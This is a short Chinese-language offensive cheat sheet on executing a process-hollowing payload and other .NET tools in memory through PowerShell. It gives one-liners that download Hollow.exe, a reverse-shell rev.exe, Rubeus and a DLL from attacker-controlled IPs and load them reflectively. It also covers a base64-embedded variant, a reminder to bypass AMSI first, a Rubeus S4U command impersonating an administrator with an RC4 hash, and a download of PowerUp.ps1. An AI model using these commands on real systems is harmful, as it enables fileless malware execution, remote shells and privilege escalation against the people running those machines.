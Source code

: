 # 执行hollow

1. 远程加载
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.161/Hollow.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Hollow.Program]::Main("")  //这里一定要带引号
```

2. 把Hollow.exe转成base64(kali执行：```base64 Hollow.exe```)
```
$base64 = "TVqQAAMAA....AA=";
$data  = [System.Convert]::FromBase64String($base64);
$assem = [System.Reflection.Assembly]::Load($data)
[Hollow.Program]::Main("")
```

其他
需要注意下面所有方法必须先绕过AMSI
```
# Download and run assembly without arguments

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()



# Download and run Rubeus, with arguments (make sure to split the args)

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())


# Execute a specific method from an assembly (e.g. a DLL)

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

# Powershell下载文件

所有版本的powershell
```
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
```
